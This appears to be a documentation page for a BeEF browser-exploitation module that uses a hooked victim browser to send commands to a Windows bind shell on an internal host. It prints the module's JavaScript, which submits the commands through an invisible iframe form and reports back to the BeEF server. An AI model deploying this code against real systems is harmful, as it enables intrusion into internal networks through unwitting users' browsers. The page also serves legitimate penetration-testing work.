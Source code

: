 ## Summary

* **Objective**: Execute command on a Windows bindshell
* **Authors**: bcoles, wade
* **Browsers**: Firefox, Chrome

* [Code](https://github.com/beefproject/beef/tree/master/modules/ipec/inter_protocol_win_bindshell)

## Internal Working

Using Inter-Protocol Exploitation/Communication (IPEC) the hooked browser will send commands to a listening Windows shell bound on the target specified in the 'Target Address' input field.

The target address can be on the hooked browser's subnet which is potentially not directly accessible from the Internet.

The results of the commands are not returned to BeEF.

Note: ampersands are used to seperate commands.

```js

// send commands
var win_ipec_form_<%= @command_id %> = beef.dom.createIframeIpecForm(rhost, rport, "/index.html?&cmd&", cmd + " & exit");
beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result=Shell commands sent');

//createIframeIpecForm function

createIframeIpecForm: function(rhost, rport, path, commands){
    var iframeIpec = beef.dom.createInvisibleIframe();

    var formIpec = document.createElement('form');
    formIpec.setAttribute('action',  'http://'+rhost+':'+rport+path);
    formIpec.setAttribute('method',  'POST');
    formIpec.setAttribute('enctype', 'multipart/form-data');

    input = document.createElement('textarea');
    input.setAttribute('name', Math.random().toString(36).substring(5));
    input.value = commands;
    formIpec.appendChild(input);
    iframeIpec.contentWindow.document.body.appendChild(formIpec);
    formIpec.submit();

    return iframeIpec;
}


```


## References

Some ports are restricted in newer versions of Chrome-like browsers and Firefox
e.g. (21,22,23,25,513 etc.)
https://e1tips.com/2014/03/17/allow-firefox-chrome-to-access-restricted-ports/

## Feedback



